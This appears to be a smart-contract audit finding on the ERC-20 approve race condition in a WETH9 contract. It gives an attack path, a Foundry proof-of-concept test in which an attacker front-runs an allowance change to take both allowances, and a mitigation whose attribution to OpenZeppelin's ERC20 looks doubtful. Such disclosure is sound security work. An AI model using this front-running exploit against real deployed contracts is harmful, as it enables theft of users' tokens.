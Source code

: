 Little Wintergreen Cod

Medium

# WETH9::approve Race Condition Allows Double-Spend

### Summary

The WETH9 contract implements the original ERC-20 approve() function without addressing the well-known race condition. This can lead to a **double-spend** of allowances if a user attempts to change an existing allowance without first resetting it to zero.


### Root Cause

The approve() function in WETH9 allows an owner to set a spender’s allowance by directly assigning the new value:

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/WETH9.sol#L37-L41

However, this implementation does not prevent **allowance front-running**, where a malicious spender can exploit the window between allowance changes:
	* 	If a user sets a new allowance while the spender still has permission to spend the old amount,
	* 	The spender can quickly transferFrom() the old amount before the allowance is overwritten,
	* 	Then spend again using the new allowance, resulting in a **double-spend**.

This behavior is considered a known flaw in the ERC-20 standard and has led to real-world losses in past protocols.


### Internal Pre-conditions

1. A user has previously approved a spender (spender) for a non-zero allowance.
2. The spender is not trusted and is able to monitor pending transactions in the mempool.
3. The user sends a new transaction to update the allowance without first setting it to zero.

### External Pre-conditions

N/A

### Attack Path

1.	User approves attacker for 100 tokens.
2.	Later, the user wants to increase the allowance to 200 and sends an approve(attacker, 200) transaction.
3.	The attacker monitors the mempool, sees this new approval pending, and immediately calls transferFrom(user, ...) using the current 100-token allowance.
4.	Once the approval transaction is mined, the allowance becomes 200.
5.	The attacker calls transferFrom(user, ...) again, this time for 200 tokens.
6.	Total tokens drained: 300, despite the user intending to only authorize 200.

### Impact

unauthorized token transfers

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";
import {WETH9} from "@src/WETH9.sol";

contract WETH9Test is Test {
    WETH9 public weth;
    address public alice;
    address public bob;
    address public attacker;
    uint256 public constant INITIAL_BALANCE = 10 ether;

    function setUp() public {
        weth = new WETH9();
        
        alice = makeAddr("alice");
        bob = makeAddr("bob");
        attacker = makeAddr("attacker");
        
        vm.deal(alice, INITIAL_BALANCE);
        vm.prank(alice);
        weth.deposit{value: INITIAL_BALANCE}();
        
        assertEq(weth.balanceOf(alice), INITIAL_BALANCE, "Alice should have WETH");
    }
    
    function test_ApprovalRaceCondition() public {
        // Step 1: Alice approves the attacker to spend 5 ETH
        uint256 initialAllowance = 5 ether;
        vm.prank(alice);
        weth.approve(attacker, initialAllowance);
        
        assertEq(weth.allowance(alice, attacker), initialAllowance, "Initial allowance should be set");
        
        // Step 2: Alice wants to change the allowance to 2 ETH
        uint256 newAllowance = 2 ether;
        
        // Simulate a new block where the attacker's front-running transaction is included
        // before Alice's approval transaction
        vm.roll(block.number + 1);
        // Step 3: Before Alice's transaction is processed, the attacker front-runs
        // and spends the initial allowance
        vm.prank(attacker);
        weth.transferFrom(alice, attacker, initialAllowance);
        
        // Verify the attacker received the tokens
        assertEq(weth.balanceOf(attacker), initialAllowance, "Attacker should have received tokens");
        assertEq(weth.balanceOf(alice), INITIAL_BALANCE - initialAllowance, "Alice should have lost tokens");
        
        // Step 4: Now Alice's transaction to change the allowance goes through
        vm.prank(alice);
        weth.approve(attacker, newAllowance);

        vm.roll(block.number + 1);
        
        // Step 5: The attacker can now spend the new allowance as well
        vm.prank(attacker);
        weth.transferFrom(alice, attacker, newAllowance);
        
        // Verify the attacker received additional tokens
        assertEq(
            weth.balanceOf(attacker), 
            initialAllowance + newAllowance, 
            "Attacker should have received additional tokens"
        );
        assertEq(
            weth.balanceOf(alice), 
            INITIAL_BALANCE - initialAllowance - newAllowance, 
            "Alice should have lost additional tokens"
        );
    }
}
```

### Mitigation

 update the approve() logic to include a guard condition requiring the allowance to first be set to zero before being changed to a non-zero value, following the pattern used in OpenZeppelin’s modern ERC20 implementation:
https://github.com/OpenZeppelin/openzeppelin-contracts/blob/441b1c1c5b909498ca6206a84445ee516067e7fc/contracts/token/ERC20/ERC20.sol#L273